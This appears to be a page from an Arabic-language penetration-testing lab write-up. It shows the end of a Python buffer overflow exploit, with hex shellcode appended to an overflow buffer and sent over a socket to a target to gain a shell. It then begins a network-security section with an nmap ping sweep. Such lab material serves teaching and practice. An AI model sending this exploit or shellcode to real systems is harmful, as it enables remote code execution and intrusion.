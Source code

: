 ```python
buf += "\x8a\x12\xbf\xbf\x27\x46\xb2\xe2\x2f\xab\xff\x1c"
buf += "\xb0\xa3\x88\x6f\x82\x6c\x23\xe7\xae\xe5\xed\xf0"
buf += "\xd1\xdf\x4a\x6e\x2c\xe0\xaa\xa7\xeb\xb4\xfa\xdf"
buf += "\xda\xb4\x90\x1f\xe2\x60\x36\x4f\x4c\xdb\xf7\x3f"
buf += "\x2c\x8b\x9f\x55\xa3\xf4\x80\x56\x69\x9d\x2b\xad"
buf += "\xfa\xa8\xa1\x6e\xcb\xc4\xb7\x70\x3d\x49\x31\x96"
buf += "\x57\x61\x17\x01\xc0\x18\x32\xd9\x71\xe4\xe8\xa4"
buf += "\xb2\x6e\x1f\x59\x7c\x87\x6a\x49\xe9\x67\x21\x33"
buf += "\xbc\x78\x9f\x5b\x22\xea\x44\x9b\x2d\x17\xd3\xcc"
buf += "\x7a\xe9\x2a\x98\x96\x50\x85\xbe\x6a\x04\xee\x7a"
buf += "\xb1\xf5\xf1\x83\x34\x41\xd6\x93\x80\x4a\x52\xc7"
buf += "\x5c\x1d\x0c\xb1\x1a\xf7\xfe\x6b\xf5\xa4\xa8\xfb"
buf += "\x80\x86\x6a\x7d\x8d\xc2\x1c\x61\x3c\xbb\x58\x9e"
buf += "\xf1\x2b\x6d\xe7\xef\xcb\x92\x32\xb4\xec\x70\x96"
buf += "\xc1\x84\x2c\x73\x68\xc9\xce\xae\xaf\xf4\x4c\x5a"
buf += "\x50\x03\x4c\x2f\x55\x4f\xca\xdc\x27\xc0\xbf\xe2"
buf += "\x94\xe1\x95"


postfix = ""
buffer = prefix + overflow + retn + padding + buf 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer , "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```  
ونشوف انه فعلا اخذنا shell  

الى هنا الحمدالله خلصنا الـ Buffer OverFlow  

راح ندخل بقسم جديد باذن الله  

---  

## Penetration Testing: Network Security  

طيب بسمالله اول لاب معنا اليوم هو

Information Gathering
----------------------|  

طيب بسمالله اول شي بنشوف الايبي تبعنا ونفحص الشبكة كامله  
```bash
nmap -sn 192.115.225.0/24  
```  
-sn راح يسوي لنا ping scan ونشوف ايش الهوستات الشغاله  
